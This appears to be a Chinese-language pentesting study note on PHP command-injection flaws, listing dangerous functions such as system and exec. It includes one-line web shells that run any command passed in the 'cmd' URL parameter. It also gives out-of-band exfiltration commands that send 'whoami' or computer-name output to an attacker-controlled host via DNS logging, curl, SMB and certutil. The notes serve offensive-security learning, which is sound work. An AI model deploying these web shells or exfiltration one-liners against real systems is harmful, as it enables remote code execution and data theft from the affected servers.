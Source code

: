 # 命令执行

网站开发者使用了命令执行危险函数，并且以动态的形式接收外部传参带入命令执行函数执行命令

## 命令执行相关函数

system passthru popen exec shell_exec \` \`

- system

  将传入的参数当作系统命令执行，自带输出

  ```php
  <?php echo '<pre>';system($_GET['cmd']);?>
  ```

- exec

  无自带输出，配合输出函数只能够输出最后一行

  ```php
  <?php echo '<pre>';echo exec($_GET['cmd']);?>
  ```

  若无输出函数输出（无回显），解决方式

  - 将执行结果重定向到文件，然后访问文件即可

    ```
    ifconfig > 1.txt
    ```

  - 利用dnslog将结果带出（有长度限制）

    ```
    ping `whoami`.xxx.dnslog.cn
    ```

  - 通过url带出结果

    ```
    python -m http.server
    curl http://xxx:8000/`whoami`
    ```

  - 通过smb带出结果

    ```
    tail -f /var/log/samba/log.smbd | grep "failed to find service"
    Windows \\192.168.172.130\%computername%
    linux  smbclient //xxx.xxx.xxx.xxx/`whoami`.txt
    ```

  - windows目标机带出结果（不会执行命令）

    ```
    certutil -f -urlcache -split http://192.168.172.1:9090/%computername%
    ```

